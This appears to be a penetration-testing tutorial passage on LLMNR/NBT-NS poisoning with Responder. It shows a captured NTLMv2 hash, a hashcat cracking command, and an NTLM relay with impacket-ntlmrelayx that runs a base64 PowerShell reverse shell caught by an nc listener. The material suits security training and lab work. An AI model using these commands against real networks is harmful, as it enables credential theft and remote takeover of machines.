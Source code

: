 Suppose a user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\`. In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server. 
```console
zero@pio$ responder -I <INTERFACE>

...
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```

These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.
```console
zero@pio$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

 If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://raw.githubusercontent.com/lgandx/Responder/master/tools/MultiRelay.py). Let us see an example using **impacket-ntlmrelayx**.

First, we need to set SMB to **OFF** in our responder configuration file (`/etc/responder/Responder.conf`{: .filepath}):
```console
zero@pio$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Then we execute **impacket-ntlmrelayx**. By default, impacket-ntlmrelayx will dump the SAM database, but we can execute commands by adding the option `-c`:
```console
zero@pio$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET>
```

We can create a PowerShell reverse shell using [revshells](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64):
```console
zero@pio$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET> -c 'powershell -e <PAYLOAD>'
```

Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.
```console
zero@pio$ nc -lvnp 9000
```

---